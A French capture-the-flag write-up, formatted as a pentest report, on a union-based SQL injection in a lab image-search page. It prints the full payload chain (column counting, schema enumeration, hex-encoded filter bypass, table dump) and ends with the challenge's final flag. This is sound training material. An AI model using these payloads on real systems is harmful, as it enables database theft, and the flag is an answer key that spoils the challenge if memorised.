







# Rapport de Pentest : SQL Injection (Union Based)

## 1. Description de la vulnérabilité
* **Indice du challenge :** `search_image_sql_inj_union`
* **Cible :** Page de recherche d'images (accessible depuis la Home).
* **Vecteur d'attaque :** Barre de recherche (paramètre `id` ou `search`).
* **Type de faille :** SQL Injection (Union Based).

### Analyse
Le champ de recherche permet d'injecter du code SQL directement dans la requête du serveur. Contrairement à l'attaque "Error Based", celle-ci permet d'afficher les résultats directement sur la page web en utilisant l'opérateur `UNION`, qui combine les résultats de la recherche légitime avec ceux de l'attaquant.

---

## 2. Étapes d'exploitation et Preuves

### Étape 1 : Détermination du nombre de colonnes
Pour utiliser `UNION`, nous devons connaître le nombre exact de colonnes utilisées par la requête SQL originale. Nous utilisons `ORDER BY` pour tester.
* **Test 1 :** `1 ORDER BY 1` (Fonctionne - Image 1).
* **Test 2 :** `1 ORDER BY 2` (Fonctionne - Image 2).
* **Test 3 :** `1 ORDER BY 3` (Erreur/Disparition).
* **Conclusion :** La requête utilise **2 colonnes**.
* **Preuves visuelles :** * `screenshots/1_order_by_check.png`
  * `screenshots/2_order_by_check.png`

### Étape 2 : Proof of Concept (PoC)
Nous vérifions que nous pouvons injecter des données arbitraires. Nous utilisons un ID inexistant (`-1`) pour vider l'affichage normal et afficher nos chiffres (`1` et `2`).
* **Payload :** `-1 UNION ALL SELECT 1, 2`
* **Résultat :** Le chiffre "2" apparaît dans le Titre, le "1" dans l'URL.
* **Preuve visuelle :** `screenshots/3_poc_union.png`

### Étape 3 : Énumération de la Base de Données
Récupération du nom de la base de données et de la version du serveur.
* **Payload :** `-1 UNION ALL SELECT database(), version()`
* **Résultat :** Base de données = `Member_images`.
* **Preuve visuelle :** `screenshots/4_db_name.png`

### Étape 4 : Énumération des Tables
Nous cherchons les tables contenues dans `Member_images`.
* **Payload :** `-1 UNION ALL SELECT group_concat(table_name), 2 FROM information_schema.tables WHERE table_schema=database()`
* **Résultat :** Table trouvée = `list_images`.
* **Preuve visuelle :** `screenshots/5_db_table.png`

### Étape 5 : Énumération des Colonnes
Nous listons les colonnes de la table `list_images`. Pour éviter d'utiliser des guillemets (bloqués par le pare-feu), nous encodons le nom de la table en hexadécimal (`list_images` -> `0x6c6973745f696d61676573`).
* **Payload :** `-1 UNION ALL SELECT group_concat(column_name), 2 FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573`
* **Résultat :** Colonnes `id`, `url`, `title`, `comment`.
* **Preuve visuelle :** `screenshots/6_db_colonne.png`

### Étape 6 : Extraction des données (Dump)
Nous extrayons le contenu de toutes les colonnes. Comme les apostrophes `'` sont filtrées, nous utilisons `0x3a` (hexadécimal pour `:`) comme séparateur.
* **Payload :** `-1 UNION ALL SELECT group_concat(url, 0x3a, title, 0x3a, comment), 2 FROM list_images`
* **Résultat brut :** Une des images contient ce commentaire caché :
`If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`
* **Preuve visuelle :** `screenshots/7_extraction_raw.png`

## 3. Décryptage du Flag Final
Le hash trouvé lors de l'étape précédente n'est pas le flag direct, c'est une énigme qu'il faut résoudre.
* **Hash extrait (MD5) :** 1928e8083cf461a51303633093573c46
* **Décryptage MD5 :** Ce hash correspond au mot albatroz.
* **Hachage SHA256 :** La consigne demande de passer ce mot en SHA256.
* **sha256("albatroz") =** `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

* **FLAG FINAL :** f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
